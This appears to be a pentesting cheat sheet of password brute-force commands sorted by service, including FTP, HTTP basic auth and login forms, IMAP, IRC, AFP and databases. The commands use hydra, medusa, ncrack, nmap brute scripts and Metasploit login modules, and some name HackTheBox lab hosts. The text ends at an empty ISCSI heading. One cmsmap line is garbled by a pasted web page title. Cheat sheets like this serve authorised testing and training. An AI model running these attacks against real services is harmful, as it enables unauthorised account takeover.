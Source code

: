 ## AFP
```
nmap -p 548 --script afp-brute <IP>
msf> use auxiliary/scanner/afp/afp_login
msf> set BLANK_PASSWORDS true
msf> set USER_AS_PASS true
msf> set PASS_FILE <PATH_PASSWDS>
msf> set USER_FILE <PATH_USERS>
msf> run
```
## AJP
```
nmap --script ajp-brute -p 8009 <IP>
```
## Cassandra
```
nmap --script cassandra-brute -p 9160 <IP>
```
## CouchDB
```
msf> use auxiliary/scanner/couchdb/couchdb_login
```
## FTP
```
hydra -l root -P passwords.txt [-t 32] <IP> ftp
ncrack -p 21 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P 500-worst-passwords.txt -h <IP> -M ftp
```
## HTTP Basic Auth
```
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local http-get /certsrv/
medusa -h <IP> -u <username> -P  <passwords.txt> -M  http -m DIR:/path/to/auth -T 10
```
## HTTP - Post Form
```
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb  http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
如果是 https ，你可以将 "http-post-form" 替换成"https-post-form"

## HTTP - CMS -- (W)ordpress, (J)oomla or (D)rupal or (M)oodle
cmsmap -f W/J/D/M -u a -p a WordPress.com: Create a Free Website or Blog
```
## IMAP
```
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f <IP> imap -V
nmap -sV --script imap-brute -p <PORT> <IP>
```
## IRC
```
nmap -sV --script irc-brute,irc-sasl-brute --script-args userdb=/path/users.txt,passdb=/path/pass.txt -p <PORT> <IP>
```
## ISCSI
